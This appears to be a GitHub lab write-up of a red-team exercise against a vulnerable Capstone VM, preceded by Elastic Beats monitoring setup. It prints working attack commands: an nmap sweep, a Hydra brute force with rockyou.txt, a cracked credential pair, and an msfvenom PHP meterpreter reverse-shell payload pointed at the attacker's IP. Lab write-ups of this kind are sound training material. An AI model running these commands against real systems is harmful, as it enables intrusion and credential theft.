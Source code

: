 # Red-Team-VS-Blue-Team


Monitoring Setup Instructions

As I attack the webserver I need to make sure that my Elastic Stack is logging all activity.

I start by launching the Elastic Stack and Kibana on my monitoring server:

![filebeat_setup.png]

#### Setup Filebeat:

##### Run the following commands:

```bash
filebeat modules enable apache
```
``bash
filebeat setup
```

#### Setup Metricbeat:

##### Run the following commands:


```bash
metricbeat modules enable apache
```
```bash
metricbeat setup
```

![metrcibeat_setup.png]


#### Setup Packetbeat:


##### Run the following command:

```bash
packetbeat setup
```

Restart all 3 services. Run the following commands:

```bash
systemctl restart filebeat
```
```bash
systemctl restart metricbeat
```
```bash
systemctl restart packetbeat
```


## Time To Attack!

Today, I will act as an offensive security Red Teamer to exploit a vulnerable Capstone VM.

##### I will need to use the following tools, in no particular order:

>Firefox
>Hydra
>Nmap
>John the Ripper
>Metasploit
>curl
>MSVenom


Now it's time to search for the webserver that I am looking to attack.

##### Below, the `nmap` command I used to discover the IP address of the Linux web server and have all IPs discovered saved into the file `nmap_scanned_ips`:

```bash
nmap -sn 192.168.0.0/24 | awk '/Nmap scan/{gsub(/[()]/,"",$NF); print $NF > "nmap_scanned_ips"}'
```

From the list of IPs that Nmap has discovered on my virtual private network:

![nmap_scanned_ips]

I then run a service scan on all IPs except the IP of my Kali VM machine (192.168.1.90):


![nmap_webserver_nmap_lookup]


I found the Linux Apache webserver I was looking for with IP address `192.168.1.105` on port `80`.

Next, I open a web browser to access the webserver:

![webserver_webdirectory]


Next, I am tasked with finding a secret folder and break into it.


After reading the company's blog I found a lead on the location of the secret folder:

![secret_folder_clue]

Next, in the "meet our team" section I found an interesting clue about who is in charge of the folder. His name is Ashton:

![secret_folder_admin_ashton]

Next, I used `Hydra` to brute force the access to the secret folder located at /company_folders/secret_folder.

I used the following command to brute force the access to the web page using `ashton` as the username and the `rockyou.txt` wordlist to brute force his password:

```bash
hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder
```

![hydra_brute_forced_password]

Next, I use Ashton's credentials to acces the secret_folder. I found a note that he left to himself, detailing how to connect to the company's webdav server:

![ashton_instruction_webdav]


I noticed a hash for ryan's account is displayed on the page. I decided to use the Crack Station website to crack it... And it worked!

![crack_station_cracked_hash]


The cracked password is: `linux4u`


Next, from the details left by Ashton on how to connect to the Webdav server, I figured out the path using the updated IP address of their server and successfully accessed the login windows and authenticated with the cracked credentials   `Ryan:linux4u`:

 ![]
![]
![]


Following the successful connection to the Webdav server, I am tasked with dropping a PHP reverse Shell payload.

I used `msfvenom` to create my payload file named `exploit.php` with the following command:

```bash
/usr/bin/msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 R > exploit.php
```

![php_payload_creation]


Next, I uploaded the reverse shell payload (exploit.php file) into the Webdav server:

![copy_paste_exploitPHP_in_webdav]



